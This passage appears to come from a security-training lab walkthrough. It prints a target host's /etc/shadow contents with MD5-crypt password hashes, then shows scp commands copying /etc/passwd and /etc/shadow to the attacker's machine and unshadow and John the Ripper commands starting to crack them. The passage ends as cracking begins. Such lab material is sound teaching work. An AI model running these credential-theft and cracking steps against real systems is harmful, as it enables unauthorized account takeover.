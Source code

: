 adm:*:14194:0:99999:7:::
lp:*:14194:0:99999:7:::
sync:*:14194:0:99999:7:::
shutdown:*:14194:0:99999:7:::
halt:*:14194:0:99999:7:::
mail:*:14194:0:99999:7:::
news:*:14194:0:99999:7:::
uucp:*:14194:0:99999:7:::
operator:*:14194:0:99999:7:::
games:*:14194:0:99999:7:::
gopher:*:14194:0:99999:7:::
ftp:*:14194:0:99999:7:::
nobody:*:14194:0:99999:7:::
vcsa:!!:14194:0:99999:7:::
rpc:!!:14194:0:99999:7:::
distcache:!!:14194:0:99999:7:::
nscd:!!:14194:0:99999:7:::
tcpdump:!!:14194:0:99999:7:::
dbus:!!:14194:0:99999:7:::
rpm:!!:14194:0:99999:7:::
pulse:!!:14194:0:99999:7:::
polkituser:!!:14194:0:99999:7:::
apache:!!:14194:0:99999:7:::
avahi:!!:14194:0:99999:7:::
openvpn:!!:14194:0:99999:7:::
mailnull:!!:14194:0:99999:7:::
smmsp:!!:14194:0:99999:7:::
rpcuser:!!:14194:0:99999:7:::
nfsnobody:!!:14194:0:99999:7:::
ntp:!!:14194:0:99999:7:::
named:!!:14194:0:99999:7:::
sshd:!!:14194:0:99999:7:::
webalizer:!!:14194:0:99999:7:::
squid:!!:14194:0:99999:7:::
torrent:!!:14194:0:99999:7:::
backuppc:!!:14194:0:99999:7:::
haldaemon:!!:14194:0:99999:7:::
gdm:!!:14194:0:99999:7:::
susan:$1$FELdTs5z$xIw5Y4dbTNWGrZKkc2k8j/:14194:0:99999:7:::
bob:$1$sL29tDS7$OpY5sTjrvxqueH8ZT2Qfa1:14194:0:99999:7:::
mike:$1$sYC.qj62$C0B6DORf.XugmQ09dQkQD1:14194:0:99999:7:::
falken:$1$8kgBlF2S$1nQ0aDcpvJL0Xdjn8zP2y/:14194:0:99999:7:::
</pre>

Copy those files to your local Slingshot host. Open a new terminal window, then copy using `scp`:

<pre>
sec504@slingshot:~$ mkdir 10.10.10.45
sec504@slingshot:~$ cd 10.10.10.45/
sec504@slingshot:~/10.10.10.45$ scp falken@10.10.10.45:/etc/passwd .
falken@10.10.10.45's password: 
passwd                                                                                                      100% 2070     2.0KB/s   00:00    
sec504@slingshot:~/10.10.10.45$ scp falken@10.10.10.45:/etc/shadow .
falken@10.10.10.45's password: 
shadow                                                                                                      100% 1421     1.4KB/s   00:00    
sec504@slingshot:~/10.10.10.45$ unshadow passwd shadow >10.10.10.45.hash
sec504@slingshot:~/10.10.10.45$ john 10.10.10.45.hash 
Warning: detected hash type "md5crypt", but the string is also recognized as "aix-smd5"
Use the "--format=aix-smd5" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (md5crypt, crypt(3) $1$ [MD5 128/128 SSE2 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status